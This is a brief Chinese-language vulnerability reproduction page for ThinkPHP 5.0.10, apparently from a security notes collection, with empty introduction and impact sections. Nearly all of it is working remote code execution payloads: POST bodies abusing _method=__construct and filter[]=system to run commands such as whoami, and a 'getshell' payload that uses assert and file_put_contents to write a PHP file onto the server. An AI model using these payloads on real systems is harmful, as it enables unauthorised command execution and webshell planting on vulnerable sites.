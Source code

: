 ```yaml
---
title: Thinkphp 5.0.10
id: zhfly3149
---
```


# Thinkphp 5.0.10

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

post提交

```
http://www.0-sec.org/public/index.php?s=index/index/index `s=whoami&_method=__construct&method&filter[]=system

s=whoami&_method=__construct&method=POST&filter[]=system

s=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> getshell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```